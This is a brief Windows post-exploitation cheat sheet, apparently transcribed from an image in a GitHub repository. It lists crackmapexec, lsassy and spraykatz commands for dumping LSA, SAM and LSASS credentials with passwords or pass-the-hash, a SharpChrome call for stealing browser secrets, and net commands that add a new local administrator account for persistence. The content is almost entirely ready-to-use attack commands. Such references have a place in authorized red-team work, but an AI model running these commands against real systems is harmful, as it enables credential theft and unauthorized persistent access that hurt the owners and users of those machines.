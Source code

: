 # Post-Ex Windows

## **Dump secrets**

LSA & SAM

```bash
crackmapexec smb perim_up.txt -u '<user>' -d '<domain>' -p '<pass>' --lsa
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --sam

lsassy -d '.' -u 'Administrateur' -H '<hash>' <ip>
lsassy -d <domain> -u <user> -p <pass> <ip>

./spraykatz.py -u <user> -p <password> -t <ip>
```

Browser secrets

```bash
sharpchrome.exe
```

create/add new local admin account 

```bat
net user add <user> <pass>
net localgroup "Administrators" <user> /add
```